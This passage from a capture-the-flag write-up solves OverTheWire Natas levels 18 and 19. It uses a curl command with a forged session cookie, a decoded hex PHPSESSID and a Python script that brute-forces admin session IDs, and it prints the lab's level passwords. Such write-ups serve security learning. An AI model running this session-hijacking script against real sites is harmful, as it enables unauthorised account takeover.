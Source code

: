 Using `curl` to set cookie `PHPSESSID=119`:

```shell
curl --user natas18:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP http://natas18.natas.labs.overthewire.org/ --cookie "PHPSESSID=119"
```

```
You are an admin. The credentials for the next level are:<br><pre>Username: natas19
Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs
```

### natas19

```
This page uses mostly the same code as the previous level, but session IDs are no longer sequential... 
```

So we explore the cookie `PHPSESSID` in the response with username=hoangp46&password=123456

```
POST /index.php HTTP/1.1
Host: natas19.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas19.natas.labs.overthewire.org/index.php?debug=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://natas19.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==
Connection: keep-alive
Cookie: __utma=176859643.1954634464.1645363414.1646410345.1646492867.10; __utmz=176859643.1646492867.10.6.utmcsr=google|utmccn=(organic)|utmcmd=organic|utmctr=(not%20provided); PHPSESSID=3237332d686f616e67703436
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

The cookie `PHPSESSID=3237332d686f616e67703436` look like HEX format, try decode it we get `273-hoangp46` -> now we can brute-force to find the PHPSESSID of admin with payload `HEX(§640§-admin)`. This following python code `natas19.py`:

```python
import requests

url = "http://natas19.natas.labs.overthewire.org"
auth_username = "natas19"
auth_password = "4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs"

for i in range(641):
    cookie = '{}-admin'.format(i).encode().hex()
    r = requests.get(url, auth=(auth_username, auth_password), cookies={'PHPSESSID': cookie})
    if i == 0:
        request_length = len(r.content)
    if len(r.content) != request_length:
        print('admin id:', i, 'cookie:', cookie)
        break
    request_length = len(r.content)
```
